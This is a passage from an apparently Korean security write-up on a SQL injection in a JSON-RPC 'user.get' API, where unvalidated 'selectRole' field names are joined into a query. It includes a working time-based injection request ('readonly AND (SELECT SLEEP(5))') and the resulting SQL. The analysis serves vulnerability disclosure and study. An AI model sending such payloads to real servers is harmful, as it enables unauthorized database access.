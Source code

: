위 코드에서 `implode()` 함수는 `selectRole` 값에 전달된 필드명을 SQL 쿼리 문자열에 그대로 포함시킵니다. 이로 인해 입력값 검증이 없을 경우 공격자가 SQL Injection을 발생시킬 수 있습니다.

따라서, 아래의  json을  요청하게 되면,  

```json
{
  "jsonrpc": "2.0",
  "method": "user.get",
  "params": {
    "selectRole": [
      "roleid",
      "name",
      "type",
"readonly AND (SELECT SLEEP(5))"
    ],
    "userids": ["1", "2",
"3"
]
  },
  "id": 1,
  "auth": "775b26ca0a9cb0e549daeb031f92a37b"
}

```

SQL 쿼리로는 다음과 같이 동작하게 되고, 결과적으로 SQL injection이 발생하는 것을 확인할 수 있습니다.

```sql
SELECT u.userid, r.roleid, r.name, r.type, r.readonly AND (SELECT SLEEP(5))
FROM users u, role r
WHERE u.roleid = r.roleid
AND u.userid IN (1, 2, 3);
```

![/assets/2025-01-02-youngdu/image.png](/assets/2025-01-02-youngdu/image%203.png)
